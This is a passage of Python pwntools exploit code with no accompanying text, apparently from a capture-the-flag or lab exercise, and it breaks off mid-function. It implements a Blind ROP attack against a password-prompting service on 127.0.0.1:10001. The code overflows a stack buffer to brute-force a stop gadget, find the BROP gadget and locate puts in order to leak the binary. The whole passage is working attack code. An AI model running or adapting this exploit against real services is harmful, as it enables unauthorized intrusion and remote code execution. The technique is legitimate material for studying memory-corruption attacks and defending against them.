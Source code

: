     def get_stop_addr(length):
        addr = 0x400600
        i = 0
        while True:
            try:
                sh = remote('127.0.0.1', 10001)
                sh.recvuntil('password?\n')
                payload = b'a'*length + p64(addr)
                sh.sendline(payload)
                sh.recv()
                sh.close()
                success('one stop gadget:0x%x' % (addr))
                return addr
            except EOFError:
                info('no 0x%x' % addr)
                addr += 1
                sh.close()

    def get_brop_gadget(length, stop_gadget, addr):
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil(b'password?\n')
            payload = b'a'*length + \
                p64(addr) + 6*p64(0xdeadbeaf) + \
                p64(stop_gadget) + 10*p64(stop_gadget)
            sh.sendline(payload)
            output = sh.recv(timeout=3)
            sh.close()
            info(b'output:' + output)
            if output.startswith(b'WelCome'):
                return True

        except EOFError:
            sh.close()
            return False

    def check_BROP_gadgets(length, addr):
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil('password?\n')
            payload = b'a'*length + p64(addr) + p64(0xdeadbeaf)*100
            sh.sendline(payload)
            output = sh.recv()
            sh.close()
            info('stop gadget, not BROP gadgets')
            return False
        except EOFError:
            sh.close()
            return True

    def get_puts_addr(length, pop_rdi_ret, stop_gadget):
        addr = 0x400550
        while True:
            info(hex(addr))
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil('password?\n')
            payload = b'a'*length + p64(pop_rdi_ret) + \
                p64(0x400000) + p64(addr) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content = sh.recv()
                if content.startswith(b'\x7fELF'):
                    success('finding puts addr:0x%x' % addr)
                    return addr
            except EOFError: